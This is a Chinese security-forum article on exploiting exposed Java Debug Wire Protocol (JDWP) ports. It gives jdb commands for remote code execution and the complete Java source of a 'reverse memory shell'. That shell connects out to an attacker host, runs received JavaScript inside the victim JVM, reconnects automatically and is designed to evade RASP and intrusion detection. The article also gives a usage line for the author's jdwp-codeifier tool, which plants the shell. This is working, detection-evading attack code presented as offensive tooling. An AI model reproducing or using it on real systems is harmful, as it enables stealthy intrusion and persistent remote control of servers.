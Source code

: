

# 通过JDWP漏洞注入"不一样"的内存马 - 先知社区

通过JDWP漏洞注入"不一样"的内存马

- - -

JDWP全称Java Debug Wire Protocol，JDWP漏洞指对外开放了Java调试服务，从而可以实现远程代码执行。目前JDWP的武器化脚本一般只能命令执行，但直接执行命令可能被RASP拦截告警，或者被入侵检测发现，而且在实际渗透测试过程中，也不一定需要执行命令，更需要的可能是一个入口，这种情况下通常是注入内存马或者内存代理。本文基于这个需求实现了可以动态执行代码并注入内存马的JDWP漏洞利用工具。

## JDWP漏洞利用

除了通过现有的脚本执行系统命令以外，其实也可以通过Java自带工具jdb执行任意Java代码：

```plain
jdb -connect com.sun.jdi.SocketAttach:hostname=127.0.0.1,port=8000
threads   #查找休眠线程
thread 0x25c   #选择休眠线程
stepi
eval java.lang.System.getProperty("os.name")
```

[![](assets/1701827759-99820e60cfe3717e2ef89e46a2492a85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001653-896d7654-92c0-1.png)

但有的类并不能直接使用，会出现找不到该类的情况，例如：

[![](assets/1701827759-d5b2c9c772bf72ee8b80fc37de8aad0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001701-8ea0a970-92c0-1.png)

当然也可以通过反射去加载，或者可能还有其他加载方式，不过我也没仔细研究这块，毕竟通过jdb执行代码还是很麻烦

## 反向内存Shell

所谓内存马，应该一般都指内存WebShell，这块已经有非常多的研究文章了。但如果放到JDWP漏洞中来看，可能并不一定适用，因为存在漏洞的应用本身或许不是一个Web应用。而这种情况下无论是通过常规意义上的反弹shell还是下载二进制木马进行进一步利用，都是一个敏感且高危的操作，可能被RASP拦截或者被入侵检测发现。

既然可以执行Java代码，那么其实可以在Java进程中启动一个线程，通过自定义的逻辑，去反弹出一个执行Java代码的"Shell"，具体实现如下：

```plain
package org.example;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;
import java.time.Duration;
import java.time.LocalDateTime;

public class App extends Thread {
    private ScriptEngine scriptEngine;

    private String host;
    private Integer port;
    private Double life;

    private String execCode(String code) {
        if (code.trim().equals("")) {
            return "";
        }
        try {
            Object result = scriptEngine.eval(code);
            if (result != null) {
                return result + "\n";
            } else {
                return "";
            }
        } catch (Exception e) {
            return e + "\n";
        }
    }

    private String getInfo() {
        String info = "  os: " + System.getProperty("os.name") + " " + System.getProperty("os.arch") + " " + System.getProperty("os.version");
        info += "\n";
        info += "user: " + System.getProperty("user.name");
        info += "\n";
        try {
            info += "host: " + InetAddress.getLocalHost().getHostName();
        } catch (Exception e) {
            info += "host: " + e;
        }
        return info;
    }

    @Override
    public void run() {
        boolean exit = false;
        LocalDateTime time = LocalDateTime.now();
        while (Duration.between(time, LocalDateTime.now()).toMillis() / (60.0 * 1000.0) < life && !exit) {
            try {
                Socket socket = new Socket(host, port);
                PrintWriter out = new PrintWriter(socket.getOutputStream());
                BufferedReader in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                scriptEngine = new ScriptEngineManager().getEngineByName("js");

                out.print(getInfo() + "\n\n>>> ");
                out.flush();
                String input;
                while ((input = in.readLine()) != null) {
                    time = LocalDateTime.now();

                    if (input.trim().equals("exit") || input.trim().equals("exit()")) {
                        exit = true;
                        socket.close();
                        break;
                    }
                    out.print(execCode(input) + ">>> ");
                    out.flush();
                }
            } catch (Exception e) {
                ;
            }

            if (!exit) {
                try {
                    Thread.sleep(5 * 1000);
                } catch (InterruptedException e) {
                    ;
                }
            }
        }
    }

    public App(String host, Integer port, Double life) {
        this.host = host;
        this.port = port;
        this.life = life;
    }

    public static void exploit(String host, Integer port, Double life) {
        new App(host,  port,  life).start();
    }

    public static void main(String[] args) {
        exploit("127.0.0.1", 8080, 0.3);
    }
}
```

服务端通过nc监听即可：

[![](assets/1701827759-913224eba64dbec7d946e0102fb90d98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001716-9773f20a-92c0-1.png)

这样就得到了一个交互式的不易被拦截的代码执行Shell，对比正向的内存WebShell，用"反向Java内存Shell"去形容似乎更准确些。按照这个思路，其实还可以写一个"反向Java内存代理"，类似于frp的socks5反向代理功能

## jdwp-codeifier

对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：[https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：[https://github.com/Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier)

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：[https://github.com/r3change/jdwp-shellifier](https://github.com/r3change/jdwp-shellifier)

但以上都无法满足前文中的代码执行需求，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为[jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显。同时也将上文中的内存Shell内置进了工具中，反弹Java内存Shell：

```plain
python jdwp-codeifier.py -t 192.168.65.254 -p 8000 -m rshell -a 127.0.0.1:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```

[![](assets/1701827759-077edf7cb759e0818ce72340457b276b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001730-9f7cc47c-92c0-1.png)

最后，项目地址：[https://github.com/l3yx/jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)
